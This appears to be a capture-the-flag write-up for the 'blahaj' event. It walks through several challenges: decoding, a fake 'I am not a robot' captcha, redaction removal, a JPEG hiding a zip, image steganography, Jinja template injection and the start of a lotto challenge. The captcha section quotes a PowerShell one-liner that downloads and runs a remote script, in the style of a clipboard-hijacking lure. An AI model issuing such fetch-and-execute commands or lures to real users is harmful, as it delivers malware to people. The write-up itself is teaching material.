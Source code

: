```python
nums = [int(line.split(".", 1)[0]) for line in lines]  
print(''.join(chr(x) for x in nums))
```
`blahaj{qu1rky_m4rkd0wn_r3nd3r1ng}`
## Are you a robot?
A challenge where we have to run a random command to prove we are not a robot
![[Pasted image 20241125181525.png]]
Checking the clipboard, we can see what command we are about to run
```ps
cmd /c PowerShell.exe "iex ((New-Object System.Net.WebClient).DownloadString('http://robot.c1.blahaj.sg/captcha.ps1'))" # ✅ ''I am not a robot - reCAPTCHA Verification ID: 3029''
```
Upon running the command, nothing happens.
![[Pasted image 20241125181654.png]]
I was too lazy to reverse engineer the script, so I threw this into https://any.run and used it to extract the code
![[Pasted image 20241125203309.png]]
`blahaj{free_powershell_glitch}`
## \[Data expunged\]
Simply open the pdf in some document editor and delete the black boxes
## Trashcan Stroll
We were told the file is suspiciously huge, so it is safe to assume there might be an embedded file. Analysis in cyberchef shows there is a `flag.txt` string within the file, suggesting there is a zip inside the file
![[Pasted image 20241125203849.png]]
Checking the [file format](https://en.wikipedia.org/wiki/JPEG#Syntax_and_structure) for jpegs, we see that they end with `0xFF, 0xD9`.
![[Pasted image 20241125204149.png]] The charaters `PK` after the EOI bytes, in conjunction with the fact that cyberchef reported pkzips embedded, hint at the kind of embedded file. Sure enough, checking the pkzip file format confirms it, as pkzips start with `0x50,0x4b,0x03,0x04`. Simply crop from those bytes to the end of the file, and we obtain the zip. 
![[Pasted image 20241125204622.png]]
`blahaj{RubbI5h_on_Th3_MoV3}`
## Significant bites
Throw the file into https://www.aperisolve.com/, get the flag
![[Pasted image 20241125204836.png]]
`blahaj{1_W4N73D_70_S33_73H_w0rLD_1N_c0L0R}`
## BabySSTI
The chal hints at jinja ssti, so we know to use `{{}}`. We are told to leak `hakerman`, so we do that.
![[Pasted image 20241125205122.png]]![[Pasted image 20241125205259.png]]
Following that, we use one of the payloads from hacktricks to extract the flag
![[Pasted image 20241125205342.png]]
`blahaj{SsT1_ExpL01T}`
## Shark lotto
We are given the source code for this challenge. Checking out main.py, we see this:
```python
@app.route('/spin', methods=['POST'])  
def spin():  
    bet_amount = request.json.get('bet')  
    money = request.json.get('money')  
    slotImage1 = random.randrange(0, 4)  
    slotImage2 = random.randrange(0, 4)  
    slotImage3 = random.randrange(0, 4)  
```